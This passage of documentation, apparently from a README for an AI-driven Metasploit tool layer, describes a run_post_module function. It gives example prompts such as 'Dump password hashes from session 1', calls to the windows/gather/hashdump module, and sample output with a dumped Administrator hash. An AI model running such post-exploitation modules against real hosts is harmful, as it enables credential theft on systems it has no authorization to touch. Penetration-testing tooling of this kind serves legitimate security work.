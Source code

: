 **Use Cases**:
- Network reconnaissance
- Service fingerprinting
- Authentication testing
- Vulnerability scanning
- Information gathering

---

### 5. run_post_module

**Purpose**: Execute post-exploitation modules against an existing session.

**Parameters**:
- `module_name` (required, string): Name/path of post module
- `session_id` (required, int): Target session ID
- `options` (optional, dict): Additional module options (SESSION is auto-added)
- `run_as_job` (optional, bool): Run asynchronously (default: false)
- `timeout_seconds` (optional, int): Timeout for synchronous execution (default: 60)

**Returns**:
- Dictionary with status, message, and module output

**Example Usage**:

```python
# Natural language with AI
"Dump password hashes from session 1"
"Enumerate installed applications on session 2"
"Check what privileges I have on session 1"

# Direct tool call
run_post_module(
    module_name="windows/gather/hashdump",
    session_id=1
)

run_post_module(
    module_name="windows/gather/enum_applications",
    session_id=1
)
```

**Sample Output**:
```json
{
  "status": "success",
  "message": "Post module windows/gather/hashdump completed via console (run).",
  "module_output": "[*] Obtaining the boot key...\n[*] Calculating the hboot key using SYSKEY...\n[+] Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::"
}
```

**Popular Post Modules**:
